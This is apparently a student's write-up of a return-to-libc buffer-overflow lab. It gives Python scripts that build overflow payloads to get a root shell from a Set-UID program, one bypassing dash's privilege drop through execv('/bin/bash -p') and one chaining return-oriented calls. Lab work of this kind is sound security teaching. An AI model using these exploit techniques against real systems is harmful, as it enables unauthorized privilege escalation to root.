

# Return to libc

## Task 1: Finding out the Addresses of libc Functions

First we turn off the countermeasures, except for the non-executable stack, and link /bin/sh to zsh:
> sudo ln -sf /bin/zsh /bin/sh

Then we retrive the address of *system()* and the address of *exit()* in the memory using gdb.

## Task 2: Putting the shell string in the memory

To achive our goal the string “/bin/sh” must be put in the memory and we have to know its address.
And then this address needs to be passed to the *system()* function.

Using the approach of the environment variable we set:
> export MYSHELL=/bin/sh

And get its address with the following program that needs to be compiled in 32bit binary:

```c
void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

## Task 3: Launching the attack

With the help of cyclic, a tool from pwntools, we can find the correct amount of padding we need to insert. Then, we construct the payload as following: `padding + system_address + exit_address + parameter(/bin/sh address)`.
In this way the program will return to the system function with the parameter /bin/sh and will also gently exit without errors (as the address of *exit()* function is set as return address for *system()*).

The exploit will be the following:

```py
#!/usr/bin/env python3
import sys

content = bytearray(0xaa for i in range(300))

X = 36
sh_addr = 0xffffd44c       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e12420   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

with open("badfile", "wb") as f:
  f.write(content)
```

The result is the following:



If we dont't insert the right address of *exit()* we are able to obtain the root shell anyway but at the moment of leaving that shell we will encounter a *Segmentation fault* error.

If we change the name from *retlib* to *newretlib* the attack will not succeed anymore and it will output the error:"zsh:1: command not found: h". The shift of three chars in the file name is reflected in the starting reading position of the env variable.

## Task 4 (Optional): Defeat Shell’s countermeasure

Some shell programs, such as *dash* and *bash*, have a countermeasure that automatically drops privileges when they are executed in a Set-UID process. We want to defeat such a countermeasure in this task. Let us first change the symbolic link back:
> sudo ln -sf /bin/dash /bin/sh

Although dash and bash both drop the Set-UID privilege, they will not do that if they are invoked with the -p option. So we will use *execv()* instead of *system()* to directly execute `/bin/bash -p`.

```c
int execv(const char \*pathname, char \*const argv[]);
```

For instance, if we want to invoke “/bin/bash -p” using execv, we need to set up the following:

```py
pathname = address of "/bin/bash"
argv[0] = address of "/bin/bash"
argv[1] = address of "-p"
argv[2] = NULL (i.e., 4 bytes of zero)

# which in our case, in the stack is:
____________________________________
execv() address
____________________________________
exit() address
____________________________________
param1 - address to the command
____________________________________
param2 - address of argv 
____________________________________
/bin/sh0
____________________________________
-p00
____________________________________
argv[0] <- memory address of /bin/sh
____________________________________
argv[1] <- memory address of -p
____________________________________
argv[2] <- 0000
____________________________________
```

So we can build the *badfile* with the following script:

```py
#!/usr/bin/env python3
import sys

content = bytearray(0xaa for i in range(300))
arr = 44
buf_addr = 0xffffcde0 # address of input buffer

Y = 28
execv_addr = 0xf7e994b0   # address of execv()
content[Y:Y+4] = (execv_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

X = 36
p_addr = buf_addr + arr    # pathname i.e. address to the command
content[X:X+4] = (p_addr).to_bytes(4,byteorder='little')

# Put the values in the stack
content[arr:arr+8] = bytearray(b'/bin/sh\x00')
content[arr+8:arr+12] = bytearray(b'-p\x00\x00')

A = 40
argv_addr = buf_addr + arr + 12 # address of the argument array
content[A:A+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct the addresses
content[arr+12:arr+16] = (buf_addr + arr).to_bytes(4, byteorder='little')
content[arr+16:arr+20] = (buf_addr + arr + 8).to_bytes(4,byteorder='little')
content[arr+20:arr+24] = bytearray(b'\x00' *4)

with open("badfile", "wb") as f:
  f.write(content)
```

## Task 5 (Optional): Return-Oriented Programming

This task can be solved with the following script:

```py
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

pos = 28

for i in range(0,10):
    system_addr = 0x565562b0   # address of foo()
    content[pos:pos+4] = (system_addr).to_bytes(4,byteorder='little')
    pos = pos + 4

sys_addr = 0xf7e12420 # address of system()
content[pos:pos+4] = (sys_addr).to_bytes(4, byteorder='little')

exit_addr = 0xf7e04f80  # address of exit()
content[pos+4:pos+8] = (exit_addr).to_bytes(4,byteorder='little')

sh_addr = 0xffffd447    # address of "/bin/sh"
content[pos+8:pos+12] = (sh_addr).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
